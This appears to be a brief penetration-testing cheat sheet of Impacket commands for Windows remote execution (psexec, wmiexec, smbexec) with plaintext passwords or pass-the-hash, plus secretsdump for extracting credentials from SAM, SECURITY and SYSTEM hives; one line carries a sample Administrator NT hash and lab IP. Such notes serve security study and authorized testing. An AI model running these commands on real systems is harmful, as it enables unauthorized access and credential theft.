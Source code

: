 ### 21-Oct-23 Sat

```
impacket-psexec domain/username:'password'@IP
```

```
impacket-psexec username@ip -hashes LM:NT
```

```
impacket-wmiexec domain/username:'password'@IP
```

```
impacket-wmiexec -hashes
00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b
Administrator@192.168.50.212
```

```
impacket-smbexec domain/username:'password'@IP
```

```
impacket-secretsdump -sam sam -security security -system system LOCAL
```



